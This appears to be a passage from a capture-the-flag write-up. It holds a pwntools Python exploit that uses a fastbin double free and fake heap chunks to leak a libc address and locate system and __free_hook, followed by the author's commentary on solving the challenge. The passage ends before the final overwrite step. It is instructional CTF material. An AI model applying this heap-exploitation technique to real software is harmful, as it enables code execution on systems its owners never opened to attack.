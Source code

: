 ```python
'''

# Initialize our name to look like a fake chunk header with size 0x61
initialize(p64(0) + p64(0x61) + p64(0))

# Address of name global variable (PIE is disabled)
fake_chunk = 0x602040

# Quick double free fast bin attack to get a chunk on top of name
# Allocate three chunks for setup (third chunk might not be needed)
add(0x58, 'A'*0x58) # 0
add(0x58, 'B'*0x58) # 1
add(0x58, 'C'*0x58) # 2

# Double free chunk 0
free(0)
free(1)
free(0)

# Get chunk 0 back, and overwrite it's FD with fake chunk
add(0x58, p64(fake_chunk) + 'A'*0x50) # 3

# Three more frees, chunk 6 will be at name
add(0x58, 'B'*0x58) # 4
add(0x58, 'A'*0x58) # 5
add(0x58, 'C'*0x58) # 6

# Next, we change name so that it looks like a fake chunk with size 0x91
# We also construct a bunch of fake chunks.
# Only two fake chunks are required, I just made a bunch of them cuz I was lazy
# The two fake chunks allow us to free this 0x91 sized chunk and bypass security checks
reintroduce(p64(0) + p64(0x91) + p64(0x21)*23)

# Free fake chunk, places the address of main_arena+0x58 into its fd and bk fields
free(6)

# We overwrite the chunk header with 'AAAAAAA\n'
# This causes reintroduce to say our name, and print out 'AAAAAAA\n<main_arena_addr>'
# We just format it correctly to get the leak
leak = u64(reintroduce('A'*(0x8+0x7) + '\n').split('\n')[1][:-1].ljust(8, '\x00'))

# Calculate all offsets needed
main_arena = leak - 0x58
libc.address = leak - 0x3c4b78
system = libc.symbols['system']
free_hook = libc.symbols['__free_hook']

log.info('Leak: ' + hex(leak))
log.info('main arena: ' + hex(main_arena))
log.info('Libc base: ' + hex(libc.address))
log.info('system: ' + hex(system))
log.info('__free_hook: ' + hex(free_hook))

'''
This next step is just crazy. I had no idea how to go about getting a chunk on malloc_hook
due to the 0x58 allocation size constraint. Getting a chunk on __free_hook was out of the
question. I spent about a day trying to do a version of the House of Orange from HITCON
CTF 2016, but failed to do so due to the size constraints again.

The next day, NotDeGhost from redpwn hinted me towards the fact that poortho (the author of
this challenge) had created a similar challenge before, so I looked him up and found a
couple writeups of his challenge hard_heap from HSCTF-6.

```